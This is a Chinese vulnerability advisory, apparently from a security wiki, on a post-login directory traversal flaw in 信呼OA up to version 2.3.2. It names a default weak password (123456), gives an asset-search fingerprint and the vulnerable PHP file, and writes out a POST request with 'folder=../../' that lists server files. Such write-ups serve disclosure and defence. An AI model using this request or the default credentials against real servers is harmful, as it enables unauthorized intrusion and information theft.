 # 信呼OA beifenAction.php 后台目录遍历漏洞

## 漏洞描述

信呼OA beifenAction.php文件中调用了 getfilerows方法，导致了目录遍历漏洞，攻击者通过漏洞可以获取服务器上的文件信息

## 漏洞影响

<a-checkbox checked>信呼OA <= 2.3.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="信呼协同办公系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1637826393127-40e04bac-5443-4dd6-b5d4-b2e8e7e63606.png)

其中默认存在几个用户存在弱口令 123456

![img](/assets/PeiQi-Wiki/img/1637826384345-ad90b308-7431-4a96-9baa-6808129967ea.png)

存在漏洞的文件为 `webmain/system/beifen/beifenAction.php`

![img](/assets/PeiQi-Wiki/img/1637826483632-dc07740e-e0e5-4b6e-8ce3-e24ad1398db9.png)

查看 `getfilerows()` 方法，在 `include/chajian/fileChajian.php`  

![img](/assets/PeiQi-Wiki/img/1637826756244-21762aa4-adbe-453a-86e3-452e767df30e.png)

该方法遍历目录下的文件名并输出，登录后，发送请求包

```python
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

![img](/assets/PeiQi-Wiki/img/1637826832637-432df24d-758c-41c0-885e-ba6f79354ce4.png)